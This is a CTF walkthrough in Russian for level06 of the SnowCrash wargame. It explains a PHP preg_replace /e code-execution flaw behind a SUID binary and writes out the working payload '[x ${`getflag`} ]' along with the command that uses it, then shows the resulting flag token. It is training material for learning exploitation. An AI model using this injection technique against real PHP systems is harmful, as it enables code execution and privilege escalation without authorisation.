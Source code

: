у нас есть 
на левеле 6

dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*

Файл level06 имеет специальный бит SUID (rwsr-x---+). Этот бит означает, что когда кто-то выполняет этот файл, он выполняется с правами владельца файла, а не того пользователя, который его запустил. В данном случае владельцем файла является flag06, то есть при его выполнении программа будет выполняться с правами пользователя flag06, а не твоими.

Этот файл может быть уязвим для эксплуатации.

level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>


Разбор кода level06.php
Этот PHP-скрипт выполняет обработку входных данных и использует уязвимую конструкцию preg_replace() с модификатором e, что делает его уязвимым для выполнения кода (RCE - Remote Code Execution).

Опасный участок кода:
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

Флаг /e в preg_replace() выполняет переданное выражение как PHP-код.

Это означает, что если мы сможем контролировать содержимое файла, который передается в file_get_contents($y), то сможем внедрить произвольный PHP-код и выполнить его.

Что мы знаем:
Скрипт ожидает аргумент $argv[1], который передается в file_get_contents($y).

Если переданный файл содержит строку [x что-то], то этот что-то будет передано в функцию y().

Функция y() заменяет . на x, а @ на y, но в целом оставляет возможность исполнять код.

Эксплуатация уязвимости (RCE)
Шаг 1: Создаем файл с кодом, который выполнит команду getflag
Так как level06.php читает файлы, нам нужно создать файл, содержащий код, который заставит его выполнить команду getflag.

echo "[x `getflag`]" > /tmp/exploit.txt

Этот файл содержит строку, которая при обработке через preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); выполнит getflag.

Шаг 2: Запускаем скрипт с нашим файлом
Теперь передаем этот файл в качестве аргумента:

./level06 /tmp/exploit.txt

echo "[x `getflag`]" > /tmp/exploit.txt не сработало

level06@SnowCrash:~$ echo '[x ${`getflag`} ]' > /tmp/exploit.txt
level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

${``} обходит ограничения PHP и заставляет его выполнить команду в shell.
PHP думает, что Check flag... — это имя переменной, но на самом деле это просто результат работы getflag.

Грамотная уязвимость в использовании preg_replace("/e"), которая позволяет выполнять команды!


